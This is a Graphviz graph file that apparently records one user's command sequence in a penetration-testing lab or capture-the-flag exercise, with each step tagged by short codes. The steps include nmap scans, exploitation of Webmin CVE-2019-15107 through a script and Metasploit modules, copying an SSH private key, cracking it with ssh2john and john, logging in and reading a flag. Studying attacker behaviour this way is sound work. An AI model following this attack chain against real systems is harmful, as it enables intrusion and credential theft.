 // creating graph for user: 86
digraph {
	node [shape=box]
	2 [label="nmap 172.18.1.5 -p 0-65535 M0 "]
	9 [label="python CVE_2019_15107.py http://172.18.1.5:10000 A13 "]
	10 [label="python CVE_2019_15107.py http://172.18.1.5:10000 id A13 "]
	11 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls A10 A13 "]
	12 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root A10 A13 "]
	13 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /root' A10 A13 "]
	14 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /root/WARNING-READ-ME.txt' M9 "]
	15 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -l /root' A10 A13 "]
	17 [label="nmap 172.18.1.5 V0 "]
	18 [label="nmap 172.18.1.0/24 A0 A1 "]
	19 [label="nmap 172.18.0.0/16 A0 A1 "]
	20 [label="nmap 172.18.0.0/16 A0 A1 "]
	23 [label="msfconsole M2 "]
	24 [label="use exploit/linux/http/webmin_backdoor M8 "]
	25 [label="msfconsole V2 "]
	26 [label="search webmin M3 "]
	27 [label="use exploit/unix/webapp/webmin_backdoor V8 "]
	28 [label="show targets A5 "]
	29 [label="set target 0 A6 "]
	30 [label="set target 1 A6 "]
	31 [label="show options M5 "]
	32 [label="set RHOSTS 172.15.1.5 M6 "]
	33 [label="set RPORT 10000 V6 "]
	34 [label="show A5 "]
	35 [label="show options V5 "]
	36 [label="exploit V8 "]
	38 [label="msfconsole V2 "]
	39 [label="search webmin V3 "]
	40 [label="use exploit/unix/webapp/webmin_show_cgi_exec V8 "]
	41 [label="show A5 "]
	42 [label="show targets A5 "]
	43 [label="show options V5 "]
	44 [label="set RHOST 172.18.1.5 A6 "]
	45 [label="set USERNAME dmin A6 "]
	46 [label="set USERNAME admin A6 "]
	47 [label="exploit V8 "]
	48 [label="set PASSWORD admin A6 "]
	49 [label="exploit V8 "]
	51 [label="use exploit/unix/webapp/webmin_backdoor V8 "]
	52 [label="show targets A5 "]
	53 [label="set TARGET 0 A6 "]
	54 [label="show options V5 "]
	55 [label="set LHOST 10.1.135.83 V6 "]
	56 [label="set RHOST 172.18.1.5  A6 "]
	57 [label="exploit V8 "]
	58 [label="set TARGET 1 A6 "]
	59 [label="ssh eve@10.1.17.4 M16 "]
	61 [label="xclip -selection c -o > .ssh/id_rsa A16 "]
	62 [label="vim .ssh/id_rsa A16 "]
	63 [label="vim .ssh/id_rsa.pub A16 "]
	64 [label="ssh eve@10.1.17.4 V16 "]
	65 [label="chmod 0600 /root/.ssh/id_rsa M15 "]
	66 [label="ssh eve@10.1.17.4 V16 "]
	67 [label="ssh eve@10.1.17.4 V16 "]
	75 [label="john mypasswd A14 "]
	77 [label="cat .ssh/id_rsa M12 "]
	78 [label="cat .ssh/id_rsa.pub V12 "]
	79 [label="ls A10 "]
	80 [label="cp ~/.ssh/id_rsa A16 "]
	81 [label="cp ~/.ssh/id_rsa id_rsa A16 "]
	82 [label="localte ssh2john.py A14 A16 "]
	83 [label="locate ssh2john.py A1 A9 A10 A11 A12 A14 A16 A17 "]
	84 [label="python ssh2john.py id_rsa M13 "]
	85 [label="python ssh2john.py id_rsa > ssh.john V13 "]
	86 [label="john ssh.john A14 A16 "]
	87 [label="john ssh.john A14 A16 "]
	88 [label="cat .john/john.rec A1 A9 A11 A12 A14 A17 "]
	90 [label="john ssh.john A14 A16 "]
	92 [label="cat rockyou.txt.gz A1 A9 A11 A12 A17 "]
	93 [label="locate rockyou A1 A9 A10 A11 A12 A17 "]
	94 [label="john ssh.john -wordlist /usr/share/wordlists/rockyou.txt A14 A16 "]
	95 [label="john ssh.john -wordlist /usr/share/wordlists/rockyou.txt A14 A16 "]
	96 [label="ls /usr/share/wordlists/rockyou.txt A10 "]
	98 [label="ls -l /usr/share/wordlists/rockyou.txt A10 "]
	99 [label="john ssh.john A14 A16 "]
	100 [label="locate rocky A1 A9 A10 A11 A12 A17 "]
	101 [label="ls /usr/share/wordlists/ A10 "]
	103 [label="ls /usr/share/wordlists/metasploit A10 "]
	105 [label="locate ssh2john.py A1 A9 A10 A11 A12 A14 A16 A17 "]
	106 [label="diff ssh2john.py /usr/share/john/ssh2john.py A14 A16 "]
	108 [label="ls A10 "]
	109 [label="python /usr/share/john/ssh2john.py id_rsa > ssh2.jogn V13 "]
	110 [label="diff ssh.john ssh2.jogn A14 A16 "]
	111 [label="john ssh.john --wordlist=/usr/share/wordlists/rockyou.txt M14 "]
	112 [label="cat /usr/share/wordlists/rockyou.txt  A1 A9 A11 A12 A17 "]
	113 [label="cat /usr/share/wordlists/rockyou.txt  A1 A9 A11 A12 A17 "]
	114 [label="ssh eve@10.1.17.4 V16 "]
	116 [label="ls A10 "]
	118 [label="ls A10 "]
	119 [label="cat flag.txt M17 "]
	121 [label="ls -l /usr/share/wordlists/rockyou.txt A10 "]
	123 [label="john ssh.john -wordlist=/usr/share/wordlists/rockyou.txt A14 A16 "]
	124 [label="john ssh.john -wordlist /usr/share/wordlists/rockyou.txt A14 A16 "]
	0 -> 2 [constraint=false]
	2 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 75 [constraint=false]
	75 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 90 [constraint=false]
	90 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 103 [constraint=false]
	103 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 116 [constraint=false]
	116 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 121 [constraint=false]
	121 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	rankdir=LR
}
